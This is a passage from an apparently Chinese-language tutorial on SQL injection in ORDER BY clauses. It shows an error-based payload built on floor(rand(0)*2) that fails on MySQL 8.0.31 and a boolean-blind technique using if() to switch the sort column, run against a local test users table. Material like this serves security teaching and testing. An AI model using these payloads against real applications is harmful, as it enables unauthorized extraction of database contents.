 mysql 8.0.31不适用

```
mysql&gt; select * from users order by (select 1 from (select count(*),concat(version(),&#39;~&#39;,floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1242 (21000): Subquery returns more than 1 row
```

### 5、布尔盲注

#### 1）IF

利用if语句

```sql
# 前面等式成立则按id列进行排序，不成立则按age列进行排序。
mysql&gt; select * from users order by if(1=0,id,age);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  4 | aduser | 123456   |   10 | beijing   |
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (0.01 sec)

mysql&gt; select * from users order by if(1=1,id,age);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
|  4 | aduser | 123456   |   10 | beijing   |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (0.00 sec)
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165613578.png)
